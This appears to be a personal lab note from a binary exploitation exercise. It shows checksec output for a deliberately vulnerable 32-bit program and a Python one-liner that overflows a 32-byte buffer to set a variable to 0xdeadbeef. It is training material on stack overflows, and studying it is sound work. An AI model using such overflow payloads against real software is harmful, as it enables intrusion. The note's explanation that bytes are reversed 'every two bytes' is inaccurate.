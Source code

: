 [[Binary Exploitation/01-02 Overwriting variables on stack/02/Source Code|Source Code]]

### Basic File checks

1. File -> `./overwrite: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=094cbdd4694e5f4aeb958401302aadc77be2c5f0, for GNU/Linux 3.2.0, not stripped` 
2. checksec ->

```c
[*] '/root/binary_exploitation/02/overwrite'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

### Run the file

```c
./overwrite
```

Result:

```c
yes? sadadfsdgsdfg
12345678
...
```

### Look at the code using ghidra


Now what we want is to go past the buffer and change the value of the variable key which is right after the buffer

From ghidra we can tell the offset is 32 since the buffer is 32 now let's do it manually

### manual exploitation

now from ghidra we know the value it is checking the key to be is `0xdeadbeef` so we can use python 2 to give it that value

```python
print 32 * 'A' + '\xef\xbe\xad\xde'
```

Now if we print it it will be unprintable characters so we send the file to a payload file

We also it every two bytes in reverse order because that's how lsb works and this file is a lsb file

Automated: 
[[Binary Exploitation/01-02 Overwriting variables on stack/02/Python Script|Python Script]]

